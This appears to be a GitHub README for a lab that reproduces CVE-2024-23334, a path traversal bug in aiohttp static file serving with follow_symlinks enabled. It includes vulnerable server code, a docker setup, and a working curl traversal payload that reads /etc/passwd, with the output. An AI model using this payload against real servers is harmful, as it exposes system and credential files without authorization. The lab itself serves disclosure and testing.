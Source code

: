 # CVE-2024-23334 Path Traversal

[中文版本(Chinese version)](README.zh-cn.md)

aiohttp is an asynchronous HTTP client/server framework for asyncio and Python. When using aiohttp as a web server and
configuring static routes, it is necessary to specify the root path for static files. Additionally, the option '
follow_symlinks' can be used to determine whether to follow symbolic links outside the static root directory. When '
follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory. This
can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even
when symlinks are not present. Disabling follow_symlinks and using a reverse proxy are encouraged mitigations. Version
3.9.2 fixes this issue.
Reference:

- https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b
- https://github.com/aio-libs/aiohttp/pull/8079
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/ICUOCFGTB25WUT336BZ4UNYLSZOUVKBD/
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/XXWVZIVAYWEBHNRIILZVB3R3SDQNNAA7/

## Environment Setup

- Vulnerable code

```python
# examples/server_simple.py
from aiohttp import web

app = web.Application()
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])

if __name__ == '__main__':
    web.run_app(app)

# 访问 https://www.jetbrains.com/help/pycharm/ 获取 PyCharm 帮助

```

Execute following commands to start an aiohttp:3.9.1 ：

```
docker compose up -d
```

## Exploit

```bash
➜  CVE-2024-23334 git:(master) ✗ curl --path-as-is http://172.17.0.2:8080/static/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

```
